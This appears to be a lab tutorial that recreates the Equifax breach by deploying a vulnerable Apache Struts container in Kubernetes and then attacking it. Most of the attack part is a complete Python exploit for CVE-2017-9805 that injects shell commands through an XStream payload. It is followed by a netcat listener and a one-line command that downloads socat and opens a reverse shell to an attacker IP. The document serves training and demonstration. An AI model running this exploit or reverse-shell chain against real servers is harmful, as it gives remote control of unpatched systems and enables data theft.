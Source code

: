 ========================
Struts Attack - Equifax
========================

The goal of this article is to simulate the Equifax attack which was carried out exploiting Apache Struts vulnerability.

Apache Struts is an open-source framework used to build Java web applications. The vulnerability is a remote code execution bug that affects the Jakarta Multipart parser.

In this attack, the front end is exploited and a reverse shell is created in the machine where struts is running. The adversary can exploit that machine - escalate privileges, spawn and terminate processes, move laterally, and get to the crown jewels.

There are 2 parts to this setup

1) Setup a container running vulnerable Apache struts in Kubernetes
2) Attack the container, exploit the vulnerability and establish a command and control

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutssetup.png
 :width: 650
 :alt: ssrf setup


Running the Vulnerable container in Kubernetes
==============================================

**Container:** 

We have already created a container with a vulnerable Apache Struts app and its present at - quay.io/araalinetworks/struts:latest

Download the deployment yaml file - deployment.yaml

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns strutfrontend
    $ kubectl apply -f deployment.yaml -n strutfrontend

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutskubectlgetpodsvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 8080
http://40.88.254.51:8080/super-app/orders/3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutsfrontend.png
 :width: 650
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Setup a VM to attack the container
==================================

Make sure **python 3.6** is installed on the VM.

Open a vim editor and copy the python code below and save it as **attack42627.py** 

::
   
   
    # Exploit Title: Struts 2.5 - 2.5.12 REST Plugin XStream RCE
    # Google Dork: filetype:action
    # Date: 06/09/2017
    # Exploit Author: Warflop
    # Vendor Homepage: https://struts.apache.org/
    # Software Link: http://mirror.nbtelecom.com.br/apache/struts/2.5.10/struts-2.5.10-all.zip
    # Version: Struts 2.5 - Struts 2.5.12
    # Tested on: Struts 2.5.10
    # CVE : 2017-9805
    
    #!/usr/bin/env python3
    # coding=utf-8
    # *****************************************************
    # Struts CVE-2017-9805 Exploit
    # Warflop (http://securityattack.com.br/)
    # Greetz: Pimps & G4mbl3r
    # *****************************************************
    import requests
    import sys
    
    def exploration(command):
    
    	exploit = '''
    				<map>
    				<entry>
    				<jdk.nashorn.internal.objects.NativeString>
    				<flags>0</flags>
    				<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
    				<dataHandler>
    				<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
    				<is class="javax.crypto.CipherInputStream">
    				<cipher class="javax.crypto.NullCipher">
    				<initialized>false</initialized>
    				<opmode>0</opmode>
    				<serviceIterator class="javax.imageio.spi.FilterIterator">
    				<iter class="javax.imageio.spi.FilterIterator">
    				<iter class="java.util.Collections$EmptyIterator"/>
    				<next class="java.lang.ProcessBuilder">
    				<command>
    				<string>/bin/sh</string><string>-c</string><string>'''+ command +'''</string>
    				</command>
    				<redirectErrorStream>false</redirectErrorStream>
    				</next>
    				</iter>
    				<filter class="javax.imageio.ImageIO$ContainsFilter">
    				<method>
    				<class>java.lang.ProcessBuilder</class>
    				<name>start</name>
    				<parameter-types/>
    				</method>
    				<name>foo</name>
    				</filter>
    				<next class="string">foo</next>
    				</serviceIterator>
    				<lock/>
    				</cipher>
    				<input class="java.lang.ProcessBuilder$NullInputStream"/>
    				<ibuffer/>
    				<done>false</done>
    				<ostart>0</ostart>
    				<ofinish>0</ofinish>
    				<closed>false</closed>
    				</is>
    				<consumed>false</consumed>
    				</dataSource>
    				<transferFlavors/>
    				</dataHandler>
    				<dataLen>0</dataLen>
    				</value>
    				</jdk.nashorn.internal.objects.NativeString>
    				<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
    				</entry>
    				<entry>
    				<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    				<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    				</entry>
    				</map>
    				'''
    
    
    	url = sys.argv[1]
    
    	headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0',
    			'Content-Type': 'application/xml'}
    
    	request = requests.post(url, data=exploit, headers=headers)
    	print (request.text)
    
    if len(sys.argv) < 3:
    	print ('CVE: 2017-9805 - Apache Struts2 Rest Plugin Xstream RCE')
    	print ('[*] Warflop - http://securityattack.com.br')
    	print ('[*] Greatz: Pimps & G4mbl3r')
    	print ('[*] Use: python struts2.py URL COMMAND')
    	print ('[*] Example: python struts2.py http://sitevulnerable.com/struts2-rest-showcase/orders/3 id')
    	exit(0)
    else:
    	exploration(sys.argv[2])



Now open two terminals, on one terminal type 

.. code-block:: RST
    
   $ sudo nc -nvlp 12345

Other terminal type

.. code-block:: XML

   $ python3 strutattack/attack42627.py http://40.88.254.51:8080/super-app/orders/3 'wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:"ash -li",pty,stderr,setsid,sigint,sane tcp:104.41.3.199:12345'    


Here, 40.88.254.51 is the IP of the struts app.

and 104.41.3.199:12345 is the IP of the machine from which you are carrying out the attack.
